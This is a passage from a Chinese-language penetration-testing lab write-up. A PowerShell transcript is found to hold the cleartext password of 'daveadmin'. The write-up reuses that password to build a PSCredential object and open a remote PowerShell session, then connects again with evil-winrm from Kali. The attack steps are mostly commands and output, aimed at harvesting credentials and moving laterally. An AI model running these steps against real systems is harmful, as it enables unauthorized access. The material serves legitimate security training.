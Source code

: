 ```
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\Users\Public\Transcripts\transcript01.txt
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
PS C:\Users\dave> Stop-Transcript
**********************
Windows PowerShell transcript end
End time: 20220623081221
**********************

```
> 成功發現 variable $cred

#### 3. 建立 PSCredential object，偽造驗證
首先建立一個 [SecureString](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring) 來儲存密碼，並創建 PSCredential object 來偽造 dave history 中建立的 logging mechanisms\
(複製 Transcript 的步驟即可)
```
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```
> 驗證成功後，以 daveadmin 的身份透過 WinRM 啟動 PowerShell 遠端會話
```
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
cd C:\

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
pwd

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir
dir
```
> 但指令沒辦法正常執行
>> 檢查目前環境：
>> 使用 bind shell 再透過 WinRM 建立 PowerShell 遠端會話
>> 可能會 unexpected behavior

#### 4. 使用 WinRM 連線
在 Kali 直接使用 [evil-winrm](https://github.com/Hackplayers/evil-winrm) 透過 WinRM 連線到 CLIENTWK220
```
┌──(chw㉿CHW)-[~]
└─$ evil-winrm -i 192.168.171.220 -u daveadmin -p "qwertqwertqwert123\!\!"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
```